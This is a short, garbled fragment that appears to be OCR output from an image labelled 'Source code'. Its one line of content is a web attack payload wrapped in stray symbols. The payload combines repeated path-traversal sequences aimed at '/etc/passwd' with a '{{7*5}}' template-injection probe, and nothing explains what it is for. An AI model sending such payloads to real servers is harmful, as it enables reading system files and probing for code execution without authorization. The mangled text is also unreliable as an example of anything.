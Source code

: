 $-_-$/$---_____---|NotHappy|$-(_)-$/...//..//..//../..//..//../..//..//..//etc/passwd${{$7*5$}}$../$../$../$../$../$/etc$/passwd$
